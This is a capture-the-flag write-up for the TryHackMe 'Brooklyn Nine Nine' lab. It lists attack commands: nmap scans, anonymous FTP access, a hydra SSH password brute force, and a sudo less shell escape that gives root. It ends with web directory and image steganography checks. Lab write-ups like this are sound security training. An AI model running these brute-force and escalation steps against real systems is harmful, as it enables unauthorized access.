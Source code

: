 # Brooklyn Nine Nine

**Room Link:** [https://tryhackme.com/room/brooklynninenine](https://tryhackme.com/room/brooklynninenine)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (5) (4).png" alt=""><figcaption></figcaption></figure>

### TCP/21 - FTP

anonymous login worked

**Kali**

```
ftp $VICTIM
Username: anonymous
```

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (6).png" alt=""><figcaption></figcaption></figure>

### TCP/22 - SSH

**Kali**

```
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (3) (4).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh jake@$VICTIM
Password: 987654321
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

## **Privlege Escalation**

**Victim**

```
sudo less /etc/profile
!/bin/sh
```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



<figure><img src="../../.gitbook/assets/image (1) (10).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

I tried to see if I could get any more info from the image but I never did.

**Kali**

```
exiftool brooklyn99.jpg 
steghide info brooklyn99.jpg
```


















